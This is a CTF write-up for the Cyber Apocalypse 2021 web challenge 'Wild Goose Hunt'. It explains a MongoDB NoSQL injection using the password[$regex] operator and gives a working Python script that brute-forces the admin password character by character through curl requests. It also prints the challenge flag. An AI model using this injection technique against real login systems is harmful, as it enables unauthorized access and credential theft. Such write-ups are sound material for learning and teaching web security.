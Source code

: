 ```yaml
---
date: "2021-04-24T00:00:00Z"
points: 300
redirect_from: /writeups/2021/CyberApocolypse2021/WildGooseHunt.html
solves: 515
tags: [web,nosqlinjection,mongodb]
title: '[Writeup] CyberApocolypse 2021 | Wild Goose Hunt'
---
```


Solves: {{ page.solves }} \| Points: {{ page.points }}

The webpage is just an username and password input field. 
After checking the source that we could download we were able to discover that the password of the admin user is also the *flag*.
Also we see that its a *mongodb database*, Maybe we have to do some *nosqlinjection*, after using burp to check the request we see its not using json but urlencoded formdata.

After searching for a poc i found that you can use `password[%24regex]=` to check with an regex, if you just use `^.*` as regex it will pass because it matches everything.
This way we can leak the password because if you put a character that isn't in in that place in the password in front of the `.*` it will fail, if its in the password it will pass.

Now we can bruteforce this, i made a little script using python.

```python
#!/usr/bin/env python
import os
import string
import json

workString = ''
ip = '188.166.145.178'
port = 31336
Solved = False

allowed = list(string.ascii_letters + string.digits + '!_-@{}')

while Solved != True:
    for currentChar in allowed:
        testString = workString+currentChar
        command = f"curl -s -k -X 'POST' -H 'Host: {ip}:{port}' -H 'Content-Type: application/x-www-form-urlencoded;charset=UTF-8' -H 'Accept: */*' -H 'Origin: http://{ip}:{port}' -H 'Referer: http://{ip}:{port}/' -H 'Accept-Encoding: gzip, deflate' -H 'Accept-Language: en-US,en;q=0.9' -H 'Connection: close' --data-binary 'username=admin&password[%24regex]=%5E{testString}.*' http://{ip}:{port}/api/login"
        output = os.popen(command).read()
        jsonData = json.loads(output)
        print( f"[{'+' if jsonData['logged'] == 1 else '-'}] Trying: '{workString}' + '{currentChar}' ({testString}) | isCorrect: {'True' if jsonData['logged'] == 1 else 'False'}")
        if jsonData["logged"] == 1:
            workString+=currentChar
            if currentChar == '}': Solved = True
            break

print("")
print(f"[FLAG] The flag is: {workString}")
```
^ A download for this script can be found [here](/assets/CTFs/CyberApocolypse2021/WideGooseHunt/solve.py)

Now that the solver is running ill explain what it does.
![](/assets/CTFs/CyberApocolypse2021/WideGooseHunt/solver_running.png){: .modal}

This code will loop over every character, if the character is correct than it will add it to the working password.
Then it will go the the next place in the password and try every character, until the last character is found.
It knows if its correct by checking if the `logged` value in the returned jsondata is `1`.


After running the script it found the flag.
**CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3}** 
![](/assets/CTFs/CyberApocolypse2021/WideGooseHunt/solver_done.png){: .modal}


Thanks for reading my writeup!

---
sources: [NOSQL INJECTION OPERATORS](https://infosecwriteups.com/nosql-injection-8732c2140576)
